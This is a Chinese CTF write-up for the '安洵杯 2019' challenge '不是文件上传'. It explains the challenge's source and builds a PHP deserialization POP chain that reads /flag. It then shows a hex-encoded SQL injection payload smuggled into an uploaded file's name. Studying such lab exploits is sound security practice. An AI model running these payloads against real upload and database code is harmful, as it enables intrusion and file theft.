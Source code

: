 ```yaml
---
title: '[安洵杯 2019]不是文件上传'
date: 2024-09-01 18:36:57
tags: 
     - 题解
     - 反序列化
categories: 刷题笔记
---
```


## [安洵杯 2019]不是文件上传

我们在页面主页发现信息

![image-20240901183916487](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409011839570.png)

在github里面可以找到源码

![image-20240901184019402](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409011840477.png)

upload.php：
上传页面，包括了helper.php ，序列化图片的内容并存在数据库中。

<!--more-->

helper.php：
反序列化数据库中的内容，输出图片内容

所以我们的核心思路：
将危险代码通过序列化存在数据库中，在反序列化的过程后，通过某些函数执行危险代码

这里一定可以存入数据库，否则我们在前端无法利用，所以数据库的语句一定有漏洞，只要想好怎么利用就可以

大概看看代码，在view_files 函数里存在文件读取，那么就按照他的来，

构造ifview==True,content=/flag

构造pop链

```
<?php
class helper {
    protected $ifview = True;
    protected $config = "/flag";

}
$a = new helper();
echo serialize($a);

?>

//O:6:"helper":2:{s:9:"*ifview";b:1;s:9:"*config";s:5:"/flag";}
```

我们将payload修改为

```
O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:5:"/flag";}

```

正常上传图片的sql语句为：

```
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES('TIM截图
20191102114857','f20c76cc4fb41838.jpg','jpg','pic/f20c76cc4fb41838.jpg','a:2:{s:5:"width";i:1264;s:6:"height";i:992;}')

```

由于title出我们可以修改，所以构造文件名

```
1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d),('1.jpg

```

因为上传的文件名中不能有双引号，所以将payload进行16进制编码

![image-20240901185101554](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409011851702.png)

使用 Brupsuite 将上传的 filename 修改为构造的文件名上传，再访问 show.php 即可得到flag。
上传一张图片，修改filename

![image-20240901185332435](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409011853482.png)

访问show.php

得到flag

![image-20240901185358157](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409011853351.png)
